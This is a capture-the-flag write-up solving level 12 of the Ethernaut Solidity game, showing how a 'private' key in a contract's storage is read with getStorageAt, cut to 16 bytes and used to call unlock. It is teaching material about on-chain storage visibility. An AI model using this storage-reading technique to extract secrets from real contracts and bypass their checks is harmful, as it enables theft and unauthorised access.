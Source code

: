# Level 12: Privacy

This is the level 12 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [Fixed size byte arrays](https://docs.soliditylang.org/en/v0.8.7/types.html#fixed-size-byte-arrays)
- [Layout of State Variables](https://docs.soliditylang.org/en/v0.8.7/internals/layout_in_storage.html#) in a Solidity contract
- [Reading storage](https://web3js.readthedocs.io/en/v1.5.2/web3-eth.html#getstorageat) at a slot

## Hack
Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

`player` has to set `locked` state variable to `false`.

This is similar to level 8: Vault where any state variable (irrespective of whether it is `private`) can be read given it's slot number.

`unlock` uses the third entry (index 2) of `data` which is a `bytes32` array. Let's determined `data`'s third entry's slot number (each slot can accommodate at most 32 bytes) according to storage rules:

- `locked` is 1 byte `bool` in slot 0
- `ID` is a 32 byte `uint256`. It is 1 byte extra big to be inserted in slot 0. So it goes in & totally fills slot 1
- `flattening` - a 1 byte `uint8`, `denomination` - a 1 byte `uint8` and `awkwardness` - a 2 byte `uint16` totals 4 bytes. So, all three of these go into slot 2
- Array data always start a new slot, so `data` starts from slot 3. Since it is `bytes32` array each value takes 32 bytes. Hence value at index 0 is stored in slot 3, index 1 is stored in slot 4 and index 2 value goes into slot 5

Alright so key is in slot 5 (index 2 / third entry). Read it.

```javascript
key = await web3.eth.getStorageAt(contract.address, 5)

// Output: '0x5dd89f7b81030395311dd63330c747fe293140d92dbe7eee1df2a8c233ef8d6d'
```

This `key` is 32 byte. But `require` check in `unlock` converts the `data[2]` 32 byte value to a `byte16` before matching.

`byte16(data[2])` will truncate the last 16 bytes of `data[2]` and return only the first 16 bytes.

Accordingly convert `key` to a 16 byte hex (with prefix - `0x`):
```javascript
key = key.slice(0, 34)

// Output: 0x5dd89f7b81030395311dd63330c747fe
```

Call `unlock` with `key`:

```javascript
await contract.unlock(key)
```

Unlocked! Verify by:
```javascript
await contract.locked()

// Output: false
```

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏

